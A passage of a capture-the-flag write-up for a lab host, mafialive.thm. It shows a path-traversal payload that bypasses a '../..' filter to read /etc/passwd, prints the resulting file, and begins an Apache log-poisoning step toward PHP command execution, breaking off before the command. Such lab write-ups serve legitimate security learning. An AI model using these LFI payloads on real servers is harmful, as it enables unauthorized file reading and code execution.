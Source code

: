 The restrictions placed on the "view" parameter are evident; specifically, the string {++var/www/html/development_testing++} was allowed, while any occurrence of ../.. was not permitted. Through reverse engineering, I found a way to bypass these limitations, resulting in the following modified command.

```sh
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../etc/passwd
```

That was working, and It gave me the results.

```sh linenums="1" hl_lines="26"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
archangel:x:1001:1001:Archangel,,,:/home/archangel:/bin/bash
```

## <b>Initial Access</b>

I saw an opportunity to explore further and decided to try a different file. In the context of Local File Inclusion (LFI), the remote files cannot be accessed, but it is possible to modify the contents of local files. This provided an opening to execute a straightforward PHP script on log files.

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log
```

The server is configured to use Apache, which usually stores its log files in the directory `/var/log/apache2/access.log.` By utilizing the PHP command: 

!!! tip "PHP Command Execution"
    